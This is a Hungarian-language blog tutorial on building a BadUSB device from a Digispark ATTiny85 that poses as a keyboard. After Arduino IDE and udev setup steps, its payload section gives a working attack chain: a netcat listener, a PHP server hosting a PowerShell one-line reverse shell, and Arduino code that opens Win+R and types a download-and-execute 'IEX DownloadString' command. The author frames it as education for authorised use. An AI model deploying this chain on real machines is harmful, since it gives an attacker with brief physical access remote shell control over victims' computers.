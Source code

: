 +++
title= "Csak egy ártatlan pendrive"
date= 2024-07-23T19:22:46+02:00
draft= false
toc= true
summary = "Filmekben lehet látni olyat, hogy a titkosügynökök a számítógépbe dugnak egy pendrive-ot és utána történik a varázslat. Itt is valami hasonlót csinálok, csak informatikusként sokkal menőbb vagyok mint a titkosügynökök."
description = "Piacon már régota kint van a USB Rubber Ducky, ami lényegében egy pendrive-nak álcázott mikrokontroller. Közönséges érdelődők számára kicsit elérhetetlen áron van szerintem, mivel jelenleg $80 egy darab. Ezért szerettem volna kipróbálni egy olcsóbb de minőségben közelítő alternatívát."
tags = ['Digispark', 'badusb', 'infosec']
+++

Bedugod, eltelik 5 másodperc, megtörténik a varázs és kihúzod. Nem, ez most nem az forgatókönyv amire gondolsz, ez történik a USB Rubber Ducky-hez hasonló mikrokontrollerek használatakor. Lényegében a számítógép ilyenkor ezeket az eszközöket HID-ként, azaz Human Interface Device-ként kezeli, mint például egy billentyűzetet is. Ez azt engedi meg, hogy lényegében az USB bedugása után elindul az arra feltöltött program, és elkezdi gépelni ezerrel azt, mindeközben az operációs rendszer teljes engedelmességet tanusít. Első kérdés az lenne, hogy ezt miért teheti meg, miért nem kér a számítógép jogosultságot? Billentyűzetben is megbízik a számítógép, mivel ember ül mögötte nem pedig egy zsarolóprogram vagy bármi ilyesmi, és hasonlanó viszonyúl minden más HID-hez is, beleértve a "badUSB"-t is. Ezek a kis eszközök viszont sokkal gyorsabban tudnak gépelni mint egy ember, ezért a lehetőségeknek csak a kreativitás szab határt. Azt nem szabad elfelejteni, hogy talán azért nem jelent ez akkora biztonsági kockázatot, mint ahogyan én most itt felvezettem, mert egy nagyon fontos feltételnek teljesülnie kell a müködéséhez: fizikai jelenlét. Ez nagy kihívást jelenthet a legtöbb támadó fél számára, de az esély rá nem 0 tehát számolni kell vele. Olyanra is volt már példa, hogy célzottan például egy rendőrség vagy irodaház parkolójában szórtak szét ilyen kártékony USB-ket és az áldozatok, emberlétükre kiváncsiságból bedugták a szervezeti, céges számítógépükbe és a baj meg is történt még mielőtt észrevették volna.

Persze nem csak csúnya dolgokra lehet ezt használni. Ha például rendszergazdák vagyunk akkor akár a repetatív feladatokat könnyen felcserélhetjük egy bedugás és kihúzás mozdulatára ennek segítségével.

## Felelősség

A tudás és a tapsztalat felelősséggel, és azon kötelességgel jár, hogy csak is embertársaink, és környezetünk előnyére, jólétére használhatjuk fel. Semmilyen körülmények között nem élhetünk vissza azzal a hatalommal, amelyet az élet ruházott ránk, amikor voltunk olyan szerencsések, hogy valamire rájöttünk, valamit megtanultunk. Ez különösen igaz a kiberbiztonság témakörében és még máskor is ki fogom ezt hangsúlyozni. Én az itt bemutatott technikákat csakis saját, vagy olyan rendszeren, számítógépen próbálom ki, amelyekhez engedélyt kaptam a tulajdonostól. A célom az a dokumentálás és a tanításnak a szándéka, hogy így egy biztonságosabb internet és informatika születhessen. **Ezáltal szeretném tisztázni, hogy engem semmilyen felelősség nem terhel, hogy TE a saját döntéseid után ezt a tudást mire használod.**

## Digispark ATTiny85

Az alternatívát a Digispark kínálja mely egy ATTiny85 8 bites RISC utasításkészletű mikrokontrollerrel rendelkezik, amely hála a fejlesztőknek, kompatibilis az Arduino IDE fejlesztői környezettel egy kis babrálás után. Az ára rendkívül baráti a $80-hoz képest, magyarországi forgalmazók 1500 Ft környékén árulják, de ha van időd megvárni, akkor lehet hogy Aliexpressről olcsőbban be tudod szerezni. Nem promóció de [itt](https://www.hestore.hu/prod_10036419.html) egy magyar forgalmazónál egy példa.

Itt a cukiság

![Digispark](/digispark.jpg)

### Ardunio IDE setup

Az Arduino IDE-t töltsd le a hivatalos oldalról, vagy csomagkezelőddel (nekem a csomagkezelős változat hiányos volt). Mivel ez nem egy Arduino board ezér külön le kell tölteni hozzá az illesztést. Ezt az alábbi módon tudod megtenni:
1. **File >> Prefrences >> Additional board manager URLs:** ide illeszd be ezt a linket **https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json** (más tutoriálokban esetleg más linket látsz az azért van mert azok még a hivatalos oldalról vannak, de sajnos nem olyan rég megszűnt a támogatás onnan, ezért kellett kiásnom a Github repo-ból ugyanarra a fájlra mutató linket).
2. **Board manager >> Itt keresd meg a "Digistump AVR" csomagot** és töltsd le.
3. **Tools >> Itt a "programmer"-nél** válaszd ki a Micronucleus-t, a "board"-nál pedig a Digispark 16,5 Mhz (default)-ot.

Kész is vagy!

### Egyéb

Az eredeti Arduino board-okat az operációs rendszerek automatikusan ellátják a megfelelő jogosultságokkal, hogy programozhatóak legyenek, de könnyen lehet hogy neked a Digisparkot nem ismeri fel hasonlóképpen. Ennek megoldásához Linuxon a továbbiakat kell tenned:

1. Hozz létre egy 49-micronucleus.rules fájlt az itt jelölt helyen: /etc/udev/rules.d/49-micronucleus.rules
2. Másold bele ezeket a sorokat és futtasd a parancsot: 

SUBSYSTEMS=="usb", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666"

KERNEL=="ttyACM*", ATTRS{idVendor}=="16d0", ATTRS{idProduct}=="0753", MODE:="0666", ENV{ID_MM_DEVICE_IGNORE}="1"

```sh 
sudo udevadm control --reload-rules
```

## Payload

Most már lehet programozni a kis cukiságot. Én példaképpen egy rendkívül egyszerű reverse shell-t fogok megvalósítani vele, a cél számítógép és a saját gépem között.

> **Reverse shell:** A shell az egy médium, egy interfész a felhasználó és a vas között, ami általában parancssorba gépelt utasításokat lefordít a számítógép nyelvére, hogy aztán a kernel segítségével végrehajtódjanak. A shell az vonatkozhat egy távoli eléréssel kapcsolódott számítógépre is, erre ismert protokolok például az SSH (Secure Shell). Ilyenkor a távoli számítógép "hallgatózik", hogy van-e valaki aki kapcsolatot akar teremteni vele, és ha mi akarunk az otthoni gépünkről elérni az ottani shell-t, akkor mi küldünk kérést neki. A **reverse shell** "reverse" része abból következik, hogy ilyenkor a szerepek feladata megcserélődik, a távoli gép kezdeményezi a csatlakozást. Ezt azért használják támadási vektornak mert a cél számítógép tűzfala a kimenő kéréseket nem akadályozza meg, de a bemenőeket igen. Egy ilyen reverse shell a támadónak esélyt ad, hogy fájlokat szolgáltasson ki, megteremtse a perzisztenciát, hogy ki-be tudjon járkálni kedve szerintde más sérülékenységekkel vegyítve tetszőleges célokat el tud érni vele.

![reverseshell](/reverse_shell.jpg)

Én ezt a legamatőrebb módon teszem meg (ez egy egy valós szituációban nem állna meg a helyét), csupán a koncepciót és a Digispark képességeinek egy töredékét szeretném bemutatni. A lényeg az, hogy lokálisan szolgáltatom egy php szerveren a powershell scriptet, illetve "hallgatózom" a saját gépemen a reverse shell kérést várva. Majd a cél gépen ezt a scriptet töltjük le (az USB segítségével), amit futtatva powershell-ben, csatlakozik a "hallgatózó" számítógépünkhez, így megteremtve a reverse shell-t. Ezt a folyamatot egy valós helyzetben botnettel csinálná a támadó szerintem, hogy a kilétét elfedje.

**Netcat-tel hallgatózom a 4444 porton**

```sh
nc -lp 4444
```

**php szerverrel szolgáltatom azt a könyvtárat, ahol a script van**

```sh
sudo php -S 0.0.0.0:80 -t /directory/to/folder/of/powershellScript/
```

**payload.ps1 fájl tartalma, ez a powershell script amit megosztunk**

Változtasd meg a saját host IP címedre a "HOST_IP_ADDRESS"-t.

```ps
$sm=(New-Object Net.Sockets.TCPClient("HOST_IP_ADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
Samratashok érdeme ez a kis script. [Github repo](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

Most pedig az amit tényleg az USB fog csinálni. Ugyebár úgy kell gondolkodnunk mintha egy billentyűzetet kellene programozni előre. Ahogy már említettem ehhez az Arduino IDE segítségünkre lesz.

```C
#include "DigiKeyboard.h" // a header ami leegyszerűsíti a parancsok kiírását
void setup() {
}

void loop() {
  DigiKeyboard.sendKeyStroke(0); // az eddigi gépelést "reset"-eljük
  DigiKeyboard.delay(500); // várást kell illetve ajánlott beiktatni, mert a számítógép sokszor nincs felkészülve a hirtelen billentyűnyomásra és esetleg figyelmenkívül hagy egy betűt, ezzel elrontva mindent akár
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Win + R
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell \"IEX (New-Object Net.WebClient).DownloadString('https://mywebserver/payload.ps1');\""); // az említett script letöltése és futtatása, itt amúgy nekem itt bejelezett a Windows Defender, ezért kifinomultabb delivery módszer szükséges
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    // üres ciklus, hogy ne fusson le újra a script
  }
}
```
Ezt a kódot feltöltjük a Micronucleus-szal a Digispark-ra és már készen is vagyunk. A saját LAN-on most már bármelyik Windows gép fölött átvehetjük az irányítást.
